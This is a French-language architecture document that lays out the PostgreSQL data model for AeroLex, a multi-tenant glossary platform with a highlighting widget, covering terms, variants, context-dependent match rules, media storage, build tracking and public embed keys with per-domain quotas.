

# AeroLex — Modèle de données de la plateforme multi-lexiques

*Document d'architecture — 03/08/2026. Conception seule, rien n'est encore créé en base.*

**Rappel des décisions actées (non rediscutées ici)** : publication statique servie au public, DB = source de vérité + back-office ; index léger + définitions à la demande ; pages `<slug>.html` ; visibilité `public|private` réversible par lexique ; URLs `aerolex.prunel.net/<id-lexique>/…` ; l'état « à rédiger » se **déduit** d'une définition vide (aucun flag stocké) ; moteur JS commun + plugins déclarés par la config du lexique.

---

## A. Modèle relationnel (PostgreSQL)

Instance cible : le Postgres existant (port 5435), **schéma dédié `aerolex`** pour ne pas mélanger avec gbrain. Toutes les tables ci-dessous sont dans ce schéma.

### Vue d'ensemble



### `users` — comptes

Pourquoi : la plateforme est ouverte à des tiers ; tout lexique a un propriétaire responsable (modération, quotas, facturation éventuelle).

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint GENERATED ALWAYS AS IDENTITY` | PK |
| email | `citext` | `UNIQUE NOT NULL` |
| display_name | `text` | NOT NULL |
| auth_provider | `text` | NOT NULL, `CHECK IN ('password','google','github')` |
| password_hash | `text` | NULL si OAuth (argon2id) |
| plan | `text` | NOT NULL DEFAULT `'free'`, `CHECK IN ('free','pro','admin')` |
| created_at / last_login_at | `timestamptz` | NOT NULL DEFAULT now() / NULL |

Le plan porte les quotas (§C) : nb de lexiques, nb de termes, appels IA/mois. Pas de table `plans` séparée tant qu'il n'y a pas de facturation réelle — un `CHECK` + une table de constantes applicative suffisent.

### `api_keys` — authentification machine

Pourquoi : l'API (§C) s'authentifie par clé, révocable indépendamment du mot de passe.

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| user_id | `bigint` | FK → users, `ON DELETE CASCADE` |
| key_hash | `text` | NOT NULL UNIQUE — **on stocke le SHA-256, jamais la clé** |
| key_prefix | `text` | NOT NULL — 8 premiers caractères en clair, pour l'affichage « alx_a1b2c3d4… » |
| label | `text` | NOT NULL |
| scopes | `text[]` | NOT NULL DEFAULT `'{read,write}'` |
| created_at / revoked_at / last_used_at | `timestamptz` | |

Index : `(key_hash)` unique (lookup à chaque requête).

### `lexicons` — le cœur

Pourquoi : un lexique = un tenant. Son `id` **textuel** (`aero`, `charpente`) sert de nom de répertoire statique et de valeur `data-index` du widget.

| Colonne | Type | Contraintes |
|---|---|---|
| id | `text` | PK, `CHECK (id ~ '^[a-z][a-z0-9-]{1,31}$')` — minuscules, sans `/`, ni mots réservés (`api`, `assets`, `admin`, `www`) contrôlés à l'applicatif |
| owner_id | `bigint` | FK → users NOT NULL |
| title | `text` | NOT NULL (ex. « Lexique aéronautique ») |
| description | `text` | |
| language | `text` | NOT NULL DEFAULT `'fr'` (BCP-47) |
| visibility | `text` | NOT NULL DEFAULT `'private'`, `CHECK IN ('public','private')` — **réversible** : un simple UPDATE + rebuild |
| license | `text` | DEFAULT `'CC BY-SA 4.0'` |
| widget_config | `jsonb` | NOT NULL DEFAULT `'{}'` — couleurs, style de soulignement, comportement popup |
| plugins | `text[]` | NOT NULL DEFAULT `'{}'` — ex. `{metar}` : noms de modules JS chargés par le noyau (`/plugins/metar.js`). Le code métier (regex `25014G24KT`…) vit dans le plugin, jamais dans le noyau — le modèle ne stocke que la **déclaration** |
| created_at / updated_at | `timestamptz` | NOT NULL |
| deleted_at | `timestamptz` | NULL — soft delete (l'id textuel reste réservé 30 j pour éviter le squatting d'un répertoire encore en cache) |

Index : `(owner_id)`.

### `categories` et `families` — taxonomies **par lexique**

Pourquoi : catégories (axe éditorial : « Altimétrie », « Radio & phraséologie ») et familles (axe navigation : `nuages_genres`, avec tableau comparatif) sont des concepts distincts dans AeroLex, tous deux **propres à chaque lexique** — pas de taxonomie globale partagée.

`categories` : `id` identity PK · `lexicon_id` FK NOT NULL `ON DELETE CASCADE` · `name text NOT NULL` · `position int NOT NULL DEFAULT 0` · `UNIQUE (lexicon_id, name)`.

`families` : mêmes colonnes + `parent_id bigint NULL` FK → families (hiérarchie : `nuages` > `nuages_genres`, un niveau suffit mais l'auto-référence n'a aucun coût) + `display_config jsonb DEFAULT '{}'` (ex. `colonnes_tableau`, `schema` de famille hérités par les membres). `UNIQUE (lexicon_id, name)`.

**Règle dérivation** : `membres_famille` **n'existe pas en base**. C'est `SELECT … FROM terms WHERE family_id = X` au moment du build. C'est exactement la classe de bug des 3 désynchronisations du 03/08 (réciprocité stockée en double) : toute donnée déductible est déduite, jamais stockée.

### `terms` — les fiches

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| lexicon_id | `text` | FK → lexicons NOT NULL `ON DELETE CASCADE` |
| term | `text` | NOT NULL — forme canonique affichée (« point de rosée ») |
| slug | `text` | NOT NULL — généré par slugify, **modifiable ensuite à la main** (SEO) |
| normalized | `text` | NOT NULL — minuscules, accents retirés, ponctuation neutralisée (fonction commune Python/SQL unique) |
| definition | `text` | NOT NULL DEFAULT `''` — **vide = à rédiger**. Point final. |
| category_id / family_id | `bigint` | FK NULL → categories / families du **même lexique** (contrainte applicative + trigger de cohérence) |
| origin | `text` | NOT NULL — provenance de la fiche : `corpus`, `metier`, `manual`, `import:<job_id>`, `ai:<job_id>`… Libre mais conventionné |
| link_active | `boolean` | NOT NULL DEFAULT true — le terme est-il soulignable par le widget (faux pour l'origine `metier` aéro) |
| case_sensitive | `boolean` | NOT NULL DEFAULT false — vrai pour les sigles : « VOR », « TORA » sont surlignés, « vor » ne l'est pas. Config source (saisie par l'éditeur), pas un état dérivé |
| accent_sensitive | `boolean` | NOT NULL DEFAULT false — par défaut le matching est insensible aux accents (via `normalized`) ; vrai quand l'accent est distinctif (« côte » vs « cote » en lexique médical) |
| schema_generator_id | `bigint` | FK NULL → schema_generators — schéma SVG **généré** attaché à la fiche (§ Médias) |
| schema_params | `jsonb` | NOT NULL DEFAULT `'{}'` — paramètres passés au générateur (ex. `{"actif": "étape de base"}` pour surbrillance d'une branche du tour de piste) |

*(Le `context_required text[]` d'une version antérieure de ce document est remplacé par `term_match_rules` ci-dessous : le contexte requis n'est qu'une des cinq règles de reconnaissance, un seul mécanisme les porte toutes.)*
| extra | `jsonb` | NOT NULL DEFAULT `'{}'` — champs spécifiques à un lexique tiers importés sans mapping (soupape anti-sur-normalisation) |
| created_at / updated_at | `timestamptz` | NOT NULL |

Contraintes et index :
- `UNIQUE (lexicon_id, slug)` — **unicité des slugs PAR lexique** : deux lexiques peuvent avoir « altitude » chacun, zéro collision (multi-tenant réglé par cette clé composite, présente aussi sur variantes et xrefs via le terme).
- `UNIQUE (lexicon_id, normalized)` — anti-doublon par forme normalisée (règle AeroLex existante, promue contrainte).
- Index `(lexicon_id, family_id)` et `(lexicon_id, category_id)` pour le build.

**Statut dérivé — jamais stocké.** Une vue expose le statut pour le back-office :

```sql
CREATE VIEW terms_v AS
SELECT t.*, (t.definition = '') AS a_rediger FROM terms t;
```

Aucune colonne `statut`, aucun flag. L'affichage rouge, les compteurs « rédigées / en construction », les stats : tous calculés depuis `definition = ''`.

**Collision de slug** (« altitude densité » et « altitude-densité » → même slug `altitude-densite`) : dans 99 % des cas ces deux formes ont aussi la **même forme normalisée**, donc la contrainte `UNIQUE (lexicon_id, normalized)` bloque la création du doublon en amont avec le message « terme déjà existant — enrichissez la fiche » (politique anti-doublon du README). Dans le cas résiduel (termes réellement distincts, normalisés différents, slugs identiques — ex. « CB » et « Cb »), l'INSERT échoue sur `UNIQUE (lexicon_id, slug)` et l'applicatif applique un suffixe déterministe : `cb`, `cb-2`, `cb-3`. Jamais de suffixe aléatoire (URLs stables), jamais d'écrasement silencieux, et l'API renvoie le slug effectivement attribué pour que l'appelant le sache.

### `term_variants` — variantes et synonymes

Pourquoi : ce sont elles qui gonflent l'index léger du widget ; relation 1-N propre plutôt qu'un tableau JSON, car on doit garantir l'unicité globale des formes **dans le lexique** (une variante ne peut pas pointer vers deux fiches — sinon LONGEST MATCH devient ambigu).

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| term_id | `bigint` | FK → terms NOT NULL `ON DELETE CASCADE` |
| lexicon_id | `text` | FK NOT NULL — dénormalisé volontairement pour la contrainte suivante |
| form | `text` | NOT NULL — la forme telle qu'affichée/matchée |
| normalized | `text` | NOT NULL |
| kind | `text` | NOT NULL `CHECK IN ('variante','synonyme')` — variante = flexion (`rafales`), synonyme = autre terme équivalent (affiché sur la fiche) |
| generated | `boolean` | NOT NULL DEFAULT false — vrai si produite automatiquement (pluriels réguliers) : régénérable, effaçable |

Contrainte clé : `UNIQUE (lexicon_id, normalized)` — combinée avec la même contrainte sur `terms.normalized`, l'ensemble `clés ∪ variantes ∪ synonymes` est sans collision **par construction** (un trigger vérifie qu'une variante n'égale pas un terme canonique du même lexique, et réciproquement).

### `term_xrefs` — renvois croisés (graphe)

Pourquoi : les `xrefs` actuelles sont des libellés libres qui cassent quand un terme est renommé. On stocke des **ids**, le libellé est résolu au build.

| Colonne | Type | Contraintes |
|---|---|---|
| from_term_id | `bigint` | FK → terms `ON DELETE CASCADE` |
| to_term_id | `bigint` | FK → terms `ON DELETE CASCADE` |
| position | `int` | NOT NULL DEFAULT 0 (ordre d'affichage) |

PK `(from_term_id, to_term_id)` + `CHECK (from_term_id <> to_term_id)` + trigger « même lexique ». La xref est **orientée** (A recommande B n'implique pas l'inverse) ; la réciprocité est une suggestion de l'éditeur, pas une contrainte — encore une leçon des désynchronisations : on ne maintient pas deux écritures pour un fait.

### `term_revisions` — versionnement des définitions

Pourquoi : traçabilité « qui a écrit quoi, quand, d'où » ; permet le diff, le revert, la relecture des fiches IA, la modération des lexiques publics.

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| term_id | `bigint` | FK → terms `ON DELETE CASCADE` |
| definition | `text` | NOT NULL — snapshot de la définition **après** l'édition |
| author_id | `bigint` | FK → users NULL (NULL = agent/pipeline) |
| author_label | `text` | NOT NULL — `'louis'`, `'gemini-lot-RELECTURE-in-1'`, `'import:42'` |
| created_at | `timestamptz` | NOT NULL DEFAULT now() |

Écriture par trigger `AFTER INSERT OR UPDATE OF definition ON terms`. On ne versionne **que la définition** (le champ à risque éditorial) — versionner toute la fiche serait de la sur-ingénierie à ce stade. Index `(term_id, created_at DESC)`.

### `import_jobs` — traçabilité des créations en masse

Pourquoi : chaque méthode de création de TODO-FEATURES.md §5 produit un *job* auditable, et `terms.origin` pointe vers lui — on sait toujours d'où vient une fiche.

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| lexicon_id | `text` | FK NOT NULL |
| user_id | `bigint` | FK NOT NULL |
| method | `text` | NOT NULL `CHECK IN ('file_upload','manual_batch','ai_domain','ai_documents','ai_mixed')` |
| source_meta | `jsonb` | NOT NULL — nom du fichier + mapping des colonnes, ou description du domaine, ou liste des documents déposés |
| status | `text` | NOT NULL `CHECK IN ('pending','review','applied','failed','rejected')` — `review` = l'utilisateur coche/décoche la liste proposée par l'IA avant rédaction |
| report | `jsonb` | résultat : nb créés, nb doublons fusionnés, erreurs, coût IA |
| created_at / finished_at | `timestamptz` | |

### `builds` — état de la publication statique

Pourquoi : décision n°1 — la DB génère le statique ; il faut savoir, par lexique, ce qui est publié, quand, et si c'est à jour.

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| lexicon_id | `text` | FK NOT NULL |
| status | `text` | NOT NULL `CHECK IN ('queued','running','success','failed')` |
| content_hash | `text` | hash du contenu source (termes+variantes+xrefs+config) — si identique au dernier `success`, build sauté |
| manifest | `jsonb` | artefacts produits : chemins, tailles, hash par fichier (sert au cache-busting et au diff incrémental) |
| pages_written / pages_deleted | `int` | |
| error | `text` | |
| started_at / finished_at | `timestamptz` | |

« Le lexique est-il à jour ? » = `max(terms.updated_at) > dernier build success` — dérivé, pas de flag `dirty` stocké (même règle que le statut).

### `abuse_reports` — modération (minimale)

`id` PK · `lexicon_id` FK · `term_id` FK NULL · `media_id bigint` FK NULL → term_media · `reporter_email text` · `reason text NOT NULL` · `status CHECK IN ('open','resolved','dismissed')` · `created_at`. Pourquoi : TODO-FEATURES §5 exige qu'un lexique public généré par IA soit signalable/relisible ; `media_id` couvre le signalement d'une image (droits d'auteur, contenu inapproprié) — un report `resolved` sur un média entraîne son retrait par l'admin, pas de flag `hidden` dupliqué sur le média. Table volontairement minimale.

---

## A-bis. Exceptions d'affichage — règles de reconnaissance (`term_match_rules`)

**Origine du besoin** : l'overlay aero-coach (`data_glossaire.py`) porte **112 métadonnées sur 52 termes** qui n'existent pas dans AeroLex : 48 enrichissements `xrefs` (déjà couverts par `term_xrefs`), 30 `famille` (couverts par `families`), et **34 vraies exceptions d'affichage + médias** : 11 `contexte_requis`, 4 `casse_sensible`, 1 `homonyme`, 18 `schema` nommés (traités au §A-ter). Ces règles sont génériques — un lexique médical a le même problème sur « bras », « bassin », « organe » — donc elles deviennent une **fonctionnalité de plateforme**, appliquée côté client par le widget au moment du surlignage.

**Arbitrage colonnes vs table.** `case_sensitive` et `accent_sensitive` sont des propriétés intrinsèques 1-1 du terme → colonnes sur `terms` (ci-dessus). Tout le reste (contexte requis, reroutage d'homonyme, exclusion) est 0-N, porte des listes de mots et une portée → table dédiée :

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| term_id | `bigint` | FK → terms NOT NULL `ON DELETE CASCADE` — la fiche dont la **forme de surface** est concernée |
| kind | `text` | NOT NULL `CHECK IN ('context_required','context_reroute','exclude')` |
| trigger_words | `text[]` | NULL — mots/préfixes déclencheurs, matchés en forme normalisée ; un préfixe se note avec `*` final (« atterriss* » couvre atterrissage/atterrissent) |
| scope | `text` | NOT NULL DEFAULT `'window'`, `CHECK IN ('window','sentence','block')` |
| window_size | `int` | NOT NULL DEFAULT 40 — nb de **mots** autour de l'occurrence quand `scope='window'` |
| target_term_id | `bigint` | FK NULL → terms — cible du reroutage, `CHECK (kind <> 'context_reroute' OR target_term_id IS NOT NULL)` + trigger même lexique |
| url_pattern | `text` | NULL — pour `exclude` : glob sur le pathname de la page hôte (`/meteo/*`) ; NULL = partout |
| note | `text` | NULL — pourquoi cette règle existe (mémoire éditoriale) |

**Sémantique des trois kinds** :

1. **`context_required`** — le terme n'est surligné QUE si au moins un `trigger_words` apparaît dans la portée. **C'est la réponse au problème des monomots ambigus jamais tranché** (vol, air, vitesse, froid, plein, bord, tour) : au lieu du choix binaire « surligner partout (bruit) / désactiver (perte) », le terme est actif conditionnellement. Exemples concrets tirés des données réelles : « **plein** » surligné seulement près de *carburant, essence, réservoir* ; « **tour** » (de contrôle) seulement près de *contrôle, fréquence, aérodrome* — tandis que « tour de piste » (multi-mot, non ambigu) reste inconditionnel ; « **bande** » (règle existante de l'overlay) seulement près de *piste, aérodrome, terrain, dégagée*. Les monomots aujourd'hui `link_active=false` peuvent être réactivés un par un en leur donnant une règle.
2. **`context_reroute`** — désambiguïsation d'homonymes **sans casser** `UNIQUE (lexicon_id, normalized)` : une seule fiche possède la forme de surface, mais si le contexte matche, le clic ouvre une AUTRE fiche. Cas réel : « vent arrière » pointe par défaut vers la fiche circuit d'aérodrome ; près de *composante, cos, sin, θ, allonge\*, distances…* (les 35 déclencheurs de l'overlay), il ouvre « composante arrière ». Deux sens = deux fiches distinctes avec leurs propres slugs, une seule forme matchée, zéro doublon en base.
3. **`exclude`** — désactive le surlignage du terme sur certaines pages du site hôte (`url_pattern`), pour les cas où même le contexte ne suffit pas (page entièrement hors domaine). Complémentaire : l'intégrateur peut poser `data-aerolex-skip` sur un bloc HTML (mécanisme widget, rien en base).

**Export dans l'index léger** — les règles doivent voyager avec l'index puisque le surlignage est client-side. Format compact, champs omis quand à la valeur par défaut :

```json
"plein": {"s": "plein", "cr": ["carburant", "essence", "reservoir"], "w": 40}
"VOR":   {"s": "vor", "cs": 1}
"vent arrière": {"s": "vent-arriere", "rr": [{"t": "composante-arriere", "m": ["composante", "cos", "sin", "allonge*"]}]}
"froid": {"s": "froid", "cr": ["givr*", "carbu*", "temperature"], "xp": ["/blog/*"]}
```

**Surcoût mesuré sur les données réelles aero** : 11 règles de contexte ≈ 7 mots × 9 caractères ≈ 750 o ; 4 flags `cs` ≈ 30 o ; 1 reroute à 35 déclencheurs ≈ 450 o ; total **≈ 1,3 Ko brut, ~0,5 Ko gzip** — soit **+3 %** sur l'index de 16 Ko gzip. Même avec 10× plus de règles (un lexique très ambigu), on reste sous +5 Ko gzip : négligeable, aucune seconde requête nécessaire. Le moteur client évalue les règles uniquement sur les candidats déjà matchés (pas de scan global), coût CPU nul en pratique.

### `zones` — portions de page où le comportement du surlignage change

**Notion** : une zone = un sélecteur CSS + un mode. `exclude` : le widget ne surligne jamais dedans (bloc de code, citation, **QCM** — surligner la réponse dans l'énoncé d'une question est un bug pédagogique, cas réel des pages de cours ATCF —, pied de page, nav). `include` : si au moins une zone `include` matche sur la page, le surlignage est **confiné** à ces sous-arbres (ex. uniquement `<main>` ou `.contenu-cours`).

**Arbitrage table vs JSON dans `widget_config`** : table dédiée. Raisons : (1) validation **par ligne** à l'écriture (parse du sélecteur CSS — un blob JSON accepterait silencieusement un sélecteur cassé) ; (2) API idempotente et dry-run par règle ; (3) `updated_at` par zone entre dans le `content_hash` du build ; (4) cohérence avec `term_match_rules` (même famille de fonctionnalités, même cycle de vie). `widget_config` reste réservé au cosmétique (couleurs, style).

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| lexicon_id | `text` | FK → lexicons NOT NULL `ON DELETE CASCADE` |
| mode | `text` | NOT NULL `CHECK IN ('include','exclude')` |
| selector | `text` | NOT NULL — sélecteur CSS, **validé par parseur à l'écriture** (§E.4) |
| url_pattern | `text` | NULL — glob sur le pathname de la page hôte (`/atcf/*`) ; NULL = tout site intégrant le lexique. Portée « domaine » : le pattern peut préfixer un host (`quiz.example.com/*`) |
| priority | `int` | NOT NULL DEFAULT 0 — départage quand plusieurs zones matchent le même nœud (plus grand gagne) ; à priorité égale, `exclude` gagne |
| enabled | `boolean` | NOT NULL DEFAULT true — désactivation sans suppression (test A/B, rollback) |
| note | `text` | NULL — mémoire éditoriale (« jamais de définition dans un énoncé de QCM ») |
| created_at / updated_at | `timestamptz` | NOT NULL |

Index `(lexicon_id)`. La portée « cette page seulement » = `url_pattern` exact sans glob ; « ce domaine » = pattern préfixé host ; « ce lexique partout » = NULL.

**Export vers le widget** : les zones voyagent dans **`manifest.json`** (pas dans l'index hashé). Argument décisif : une zone change le *comportement*, pas le *contenu* — la mettre dans le manifest (TTL 300 s) la propage en **< 5 min sans rebuild de l'index** ni purge des artefacts immutables. Format compact : `"zones": [{"m":"x","s":".qcm","p":"/atcf/*"}]` (`m` = `i|x`, `p` omis si NULL, `priority` omise si 0). **Coût : ~60-100 o par zone ; 10 zones ≈ 1 Ko brut / ~0,3 Ko gzip** — le manifest reste sous 2 Ko, aucune requête supplémentaire.

**Application côté client** (par nœud texte candidat) : le moteur remonte les ancêtres ; l'ancêtre porteur d'un signal le plus **proche** gagne (attribut HTML niveau 1 = maximum de localité) ; entre zones de niveau 2 matchant le même nœud : priorité la plus haute, puis `exclude` en cas d'égalité. S'il existe des zones/attributs `include`, tout ce qui est hors de leurs sous-arbres est ignoré. Le moteur embarque en dur une **liste d'exclusions par défaut** (niveau 0, non configurable, non exportée) : `code, pre, kbd, samp, script, style, textarea, input, select, [contenteditable], .aerolex-popup`.

---

## A-ter. Médias des fiches

Deux natures **distinctes**, deux tables : les médias sont des **fichiers** (référencés ou hébergés), les schémas sont du **code** qui produit du SVG au build. Les confondre reproduirait le bug du booléen `schema` actuel (222 flags `True` dans `data_glossaire_full.py` qui ne pointent vers rien).

### `term_media` — images et fichiers attachés

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| term_id | `bigint` | FK → terms NOT NULL `ON DELETE CASCADE` |
| kind | `text` | NOT NULL DEFAULT `'image'`, `CHECK IN ('image','video','document')` — vidéo = URL externe uniquement (YouTube/PeerTube), on n'héberge pas de vidéo |
| source | `text` | NOT NULL `CHECK IN ('external','hosted')` |
| url | `text` | NULL — source externe. `CHECK ((source='external') = (url IS NOT NULL))` |
| storage_key | `text` | NULL — source hébergée : clé objet `media/<lexicon_id>/<sha256-16>.<ext>`. `CHECK ((source='hosted') = (storage_key IS NOT NULL))` |
| mime | `text` | NOT NULL — whitelist applicative à l'upload : `image/webp,png,jpeg,avif,svg+xml` (SVG **sanitizé** serveur : scripts/handlers/foreignObject retirés — un SVG uploadé est un vecteur XSS classique) |
| width / height | `int` | NOT NULL pour `hosted` (mesurés à l'upload), NULL possible pour `external` — servent aux attributs `` anti-layout-shift |
| bytes | `int` | NOT NULL pour `hosted` — base du calcul de quota |
| alt | `text` | NOT NULL — texte alternatif obligatoire (accessibilité + SEO ; l'upload sans alt est refusé) |
| caption | `text` | NULL — légende affichée |
| credit | `text` | NULL — auteur/source |
| license | `text` | NULL — licence déclarée par l'uploadeur (`CC BY-SA 4.0`, `domaine public`, `droits réservés — usage autorisé`). Déclaratif : la responsabilité juridique est portée par le compte propriétaire (CGU), la modération passe par `abuse_reports.media_id` |
| position | `int` | NOT NULL DEFAULT 0 — plusieurs médias par fiche, ordonnés |
| uploaded_by | `bigint` | FK → users NOT NULL |
| created_at | `timestamptz` | NOT NULL DEFAULT now() |

Index `(term_id, position)`. **Stockage physique : R2 Cloudflare** (un secret R2 existe déjà dans le trousseau) plutôt que le disque local — arguments : ce sont les **seuls artefacts non régénérables** de la plateforme (tout le reste se rebuilt depuis la DB, un média perdu est perdu), R2 est sans frais d'egress derrière le CDN Cloudflare déjà en place, et ça découple le poids des médias du serveur applicatif. Servi via `aerolex.prunel.net/media/…` (custom domain R2 ou proxy). Le nommage par **hash de contenu** (`sha256` tronqué 16) donne l'anti-collision ET la dédup gratuite (deux uploads du même fichier = un seul objet) ET l'immutabilité (`Cache-Control: immutable`) — remplacer une image = nouvel objet, nouvelle clé, jamais d'écrasement. Fallback si Louis préfère éviter une dépendance : disque local `media/` **hors de `dist/`** (les médias survivent aux rebuilds), servi par le même service statique.

**Quotas par plan** (comptés en base : `SUM(bytes) WHERE source='hosted'` par lexique — dérivé, jamais de compteur stocké) : `free` = 20 Mo/lexique, 2 Mo/fichier, 5 médias/fiche ; `pro` à définir. Les URL externes ne comptent pas dans le quota (mais restent signalables).

### `schema_generators` — schémas SVG générés (plugins de plateforme)

**Position de sécurité, assumée : on n'exécute JAMAIS de code fourni par un compte tiers.** Un générateur est du Python qui tourne au build, côté serveur — l'ouvrir aux uploads serait offrir de l'exécution de code arbitraire dans le SaaS. Les générateurs sont donc des **plugins fournis par la plateforme**, versionnés dans le dépôt AeroLex (`src/svg_glossaire.py` en fournit 9 aujourd'hui : `piste_seuils_qfu`, `manche_a_air`, `rose_des_vents`, `composantes_face_travers`, `decrabage`, `tour_de_piste`, `distances_piste`, `azimut_vrai_magnetique`, `remise_des_gaz`), et **déclarés** par lexique — même logique que `lexicons.plugins` pour le JS. Un compte tiers qui veut un schéma statique uploade un SVG (sanitizé) via `term_media` ; un schéma paramétré custom = prestation/contribution au dépôt, revue humaine.

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| lexicon_id | `text` | FK → lexicons NOT NULL `ON DELETE CASCADE` |
| name | `text` | NOT NULL — clé du registre plateforme (`tour_de_piste`), `UNIQUE (lexicon_id, name)` |
| params_schema | `jsonb` | NOT NULL DEFAULT `'{}'` — JSON Schema des paramètres acceptés (ex. `{"actif": {"enum": ["vent arrière", "étape de base", …]}}`) ; valide `terms.schema_params` à l'écriture |

La fiche référence son générateur via `terms.schema_generator_id` + `terms.schema_params` (§A). Un `name` inconnu du registre plateforme → la déclaration est refusée à l'API. Au build, le générateur produit `schemas/<name>-<hash8(params)>.svg` sous `dist/<lexique>/` : 7 fiches `tour_de_piste` avec des `actif` différents = 7 fichiers, 2 fiches aux mêmes paramètres = 1 fichier partagé (hash de contenu, cache immutable).

---

## A-quater. Pose du widget — clés de pose, contrôle d'accès, thèmes

*Décisions Louis du 03/08 au soir : « ID de pose » comme clé d'intégration + contrôle d'accès aux lexiques, et CSS personnalisable publié par pose.*

### `embed_keys` — clés de pose (l'« ID de pose »)

**Problème actuel** : le widget se pose en `<script src="aerolex.js" data-lexicon="aero">` — aucune identité. Conséquences : index pompable par n'importe qui, zéro mesure d'usage, zéro révocation, zéro facturation possible. La clé de pose règle les quatre.

**Arbitrage table distincte vs `api_keys` avec un type : table DISTINCTE.** Les deux objets sont opposés sur tous les axes : une clé API est **secrète** (stockée hashée, jamais réaffichable, scopes d'écriture, rattachée à un *user*) ; une clé de pose est **publique par nature** (elle vit dans le HTML de l'intégrateur, lisible par quiconque fait « afficher la source » — il faut donc la stocker EN CLAIR pour la réafficher dans le back-office), en lecture seule, rattachée à un *lexique*, et porte domaines/quotas/thème. Les fusionner forcerait une table schizophrène (`key_hash` NULL d'un côté, `allowed_origins` NULL de l'autre) et surtout brouillerait la règle de sécurité cardinale : **on ne hashe que ce qui est secret, et une clé de pose ne l'est pas**. Préfixes distincts pour éviter toute confusion humaine : `alx_` (API, secrète) vs `alxk_` (pose, publique).

| Colonne | Type | Contraintes |
|---|---|---|
| id | `bigint` identity | PK |
| public_key | `text` | NOT NULL UNIQUE — `alxk_` + 20 caractères aléatoires, **stockée en clair** (non secrète par définition) |
| lexicon_id | `text` | FK → lexicons NOT NULL `ON DELETE CASCADE` — une clé = UN lexique |
| label | `text` | NOT NULL — « Site ATCF », « Blog perso » |
| allowed_origins | `text[]` | NOT NULL DEFAULT `'{}'` — hosts autorisés (`aero-coach.prunel.net`, wildcard sous-domaine `*.example.com`) ; vide = tout domaine accepté (clé de mesure pure) |
| status | `text` | NOT NULL DEFAULT `'active'`, `CHECK IN ('active','revoked')` |
| degraded_mode | `text` | NOT NULL DEFAULT `'teaser'`, `CHECK IN ('block','teaser')` — comportement hors quota (voir tableau des réponses) |
| daily_quota | `int` | NULL = quota du plan du propriétaire du lexique ; sinon override par pose |
| theme_id | `bigint` | FK NULL → themes (trigger même lexique) — le thème appliqué à CETTE pose (§ thèmes) |
| created_at / revoked_at / last_seen_at | `timestamptz` | |

Pose côté intégrateur : `<script src="https://aerolex.prunel.net/aerolex.js" data-key="alxk_a1b2c3…">`. La clé **résout le lexique** (mapping clé→lexique côté serveur) : `data-index` devient facultatif — une seule valeur à poser, plus de risque d'incohérence clé/lexique. `data-index` seul reste accepté pour les lexiques en `access_mode='open'` (rétro-compatibilité).

**Nouvelle colonne sur `lexicons`** : `access_mode text NOT NULL DEFAULT 'open' CHECK IN ('open','keyed')`. Orthogonale à `visibility` (qui gouverne SEO/indexation) : `open` = les artefacts se servent sans clé ; `keyed` = toute requête widget exige une clé valide. Réversible par UPDATE + rebuild, comme `visibility`.

### Sécurité — ce que la clé protège vraiment (honnêteté obligatoire)

Une clé posée dans du HTML est **lisible par tous** : le contrôle ne peut PAS reposer sur son secret. La défense est en profondeur, et chaque couche a une limite qu'on assume :

1. **Validation d'`Origin`/`Referer`** contre `allowed_origins` — bloque l'embarquement de la clé sur un site tiers **dans un navigateur** (l'en-tête `Origin` d'un fetch cross-origin n'est pas falsifiable en JS). Limite : un client non-navigateur (curl, script) forge ces en-têtes trivialement.
2. **Quotas par clé et par (clé, domaine)** — même un scraper qui forge l'Origin épuise le quota et tombe en mode dégradé. Limite : il peut lire l'index une fois, ça suffit à le copier.
3. **Rate-limit IP** au worker (burst) — anti-abus mécanique, pas une protection de contenu.
4. **Détection d'usage hors domaine** : `embed_usage.origin` révèle les domaines réels ; un domaine non autorisé qui apparaît = alerte back-office + révocation en un clic.

**Conclusion assumée** : la liste des MOTS d'un lexique keyed est freinée, pas scellée (quiconque a un quota peut la copier une fois). Ce que le dispositif protège réellement : les **définitions** (servies à la demande, comptées, coupables au quota), la **mesure** (facturation), et la **révocabilité** (un partenaire qui part = clé morte en 1 UPDATE). C'est exactement le niveau de garantie des clés Google Maps / Stripe publishable keys — standard de l'industrie pour ce problème.

### Réponses dégradées (demande explicite de Louis)

Réponses du serveur (worker) sur les endpoints widget (`manifest`, index, `defs/`), et comportement client correspondant — le widget ne casse JAMAIS la page hôte, quel que soit le cas :

| Situation | HTTP | Corps | Comportement widget |
|---|---|---|---|
| Clé absente, lexique `open` | 200 | contenu complet | normal (pas de mesure possible — c'est le prix du mode open) |
| Clé absente, lexique `keyed` | 401 | `{"error":"key_missing"}` | inerte : aucun surlignage, `console.warn` explicite pour le développeur, rien pour le visiteur |
| Clé inconnue | 403 | `{"error":"key_unknown"}` | inerte + `console.warn` (faute de frappe probable) |
